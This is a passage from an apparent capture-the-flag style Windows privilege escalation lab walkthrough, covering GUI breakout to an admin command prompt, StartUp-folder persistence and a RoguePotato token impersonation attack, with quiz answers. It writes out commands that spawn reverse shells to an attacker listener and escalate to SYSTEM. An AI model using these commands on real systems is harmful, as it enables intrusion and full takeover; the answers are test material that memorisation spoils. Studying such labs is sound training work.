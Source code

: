 In Paint, click "File" and then "Open". In the open file dialog box, click in the navigation input and paste: file://c:/windows/system32/cmd.exe<br>

Press Enter to spawn a command prompt running with admin privileges.</p>

<p><em>Answer the question below</em></p>

<p>14.1. Read and follow along with the above.<br>
<code>No answer needed</code></p>

<br>
<h2>Task 15 . Startup Apps<a id='15'></h2>
<p>Using accesschk.exe, note that the BUILTIN\Users group can write files to the StartUp directory:<br>

<code>C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"</code><br>

Using cscript, run the C:\PrivEsc\CreateShortcut.vbs script which should create a new shortcut to your reverse.exe executable in the StartUp directory:<br>

<code>cscript C:\PrivEsc\CreateShortcut.vbs</code><br>

Start a listener on Kali, and then simulate an admin logon using RDP and the credentials you previously extracted:<br>

<code>rdesktop -u admin MACHINE_IP</code><br>

A shell running as admin should connect back to your listener.</p>

<p><em>Answer the question below</em></p>

<p>15.1. Read and follow along with the above.<br>
<code>No answer needed</code></p>

<br>
<h2>Task 16 . 𝗧𝗼𝗸𝗲𝗻 𝗜𝗺𝗽𝗲𝗿𝘀𝗼𝗻𝗮𝘁𝗶𝗼𝗻 - Rogue Porato<a id='16'></h2>
<p>Set up a socat redirector on Kali, forwarding Kali port 135 to port 9999 on Windows:<br>

<code>sudo socat tcp-listen:135,reuseaddr,fork tcp:MACHINE_IP:9999</code><br>

Start a listener on Kali. Simulate getting a service account shell by logging into RDP as the admin user, starting an elevated command prompt (right-click -> run as administrator) and using PSExec64.exe to trigger the reverse.exe executable you created with the permissions of the "local service" account:<br>

<code>C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe</code><br>

Start another listener on Kali.<br>

Now, in the "local service" reverse shell you triggered, run the RoguePotato exploit to trigger a second reverse shell running with SYSTEM privileges (update the IP address with your Kali IP accordingly):<br>

<code>C:\PrivEsc\RoguePotato.exe -r 10.10.10.10 -e "C:\PrivEsc\reverse.exe" -l 9999</code></p>

<p><em>Answer the questions below</em></p>

<p>16.1.  Name one user privilege that allows this exploit to work.<br>
<code>SeImpersonatePrivilege</code></p>
